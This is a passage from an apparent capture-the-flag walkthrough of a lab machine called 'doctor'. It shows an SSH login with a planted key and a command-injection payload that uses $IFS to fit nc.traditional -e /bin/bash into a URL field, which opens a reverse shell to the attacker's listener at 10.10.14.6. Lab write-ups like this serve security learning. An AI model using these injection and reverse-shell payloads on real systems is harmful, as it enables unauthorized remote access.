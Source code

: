 Now I’ll connect with that key and have an SSH shell:

```

root@kali:/opt/privilege-escalation-awesome-scripts-suite/linPEAS# ssh -i ~/keys/ed25519_gen web@10.10.10.209
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-42-generic x86_64)
 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

76 updates can be installed immediately.
36 of these updates are security updates.
To see these additional updates run: apt list --upgradable

The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Your Hardware Enablement Stack (HWE) is supported until April 2025.
Last login: Sun Nov  1 16:25:12 2020 from 10.10.14.6
web@doctor:~$

```

#### Shell via nc.traditional

If I start with just connecting with `nc` (not a shell), it works with a payload of `http://10.10.14.6/$(nc$IFS'10.10.14.6'$IFS'443')`:

```

root@kali:/opt/privilege-escalation-awesome-scripts-suite/linPEAS# nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.209.
Ncat: Connection from 10.10.10.209:40418.

```

Various reverse shells didn’t work. I tried `-e /bin/bash` on `nc`, as well as Bash reverse shells without success. Eventually I tried `nc.traditional` (which is like `nc`, but will have the `-e` flag), and it worked:

```

http://10.10.14.6/$(nc.traditional$IFS-e$IFS'/bin/bash'$IFS'10.10.14.6'$IFS'443')

```

I got a shell:

```

root@kali:/opt/privilege-escalation-awesome-scripts-suite/linPEAS# nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.209.
Ncat: Connection from 10.10.10.209:40450.
id
uid=1001(web) gid=1001(web) groups=1001(web),4(adm)

```
